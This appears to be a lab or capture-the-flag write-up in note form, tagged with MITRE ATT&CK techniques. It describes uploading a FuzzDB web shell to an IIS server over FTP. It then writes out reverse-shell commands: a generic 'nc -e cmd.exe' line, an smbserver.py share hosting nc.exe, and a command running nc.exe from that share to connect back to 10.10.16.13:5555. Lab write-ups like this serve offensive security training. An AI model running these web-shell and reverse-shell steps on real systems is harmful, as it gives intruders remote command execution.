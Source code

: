 ***

**MITRE**
#TTP 
`T1105 Ingress Tool Transfer`


Lets try another method and search internally for a web-shell from `seclists`
```
 ls /usr/share/seclists/Web-Shells/FuzzDB/
```
![[Pasted image 20240717111200.png]]

Copy over to server via FTP and view in browser
![[Pasted image 20240717111314.png]]



**MITRE**
#TTP 
`T1203 Exploitation for Client Execution`


Run some commands and inspect the traffic
![[Pasted image 20240717111900.png]]
![[Pasted image 20240717111925.png]]

***
**NC WEB SHELL**


**MITRE**
#TTP 
`T1505.003: Web Shell`


We can attempt to run a simple NC reverse but `nc` is not native on windows

```
nc -e cmd.exe [attacker_IP] [attackeer_port]
```
![[Pasted image 20240717112318.png]]


We can create an smb share to host the `nc` executable and have it run in memory
![[Pasted image 20240717145705.png]]

This will be more advanced and stealthy

```
sudo smbserver.py a /usr/share/windows-binaries/
```
![[Pasted image 20240717150038.png]]


Execute Command on IIS Server
```
\\10.10.16.13\a\nc.exe -e cmd.exe 10.10.16.13 5555
```
![[Pasted image 20240717150253.png]]
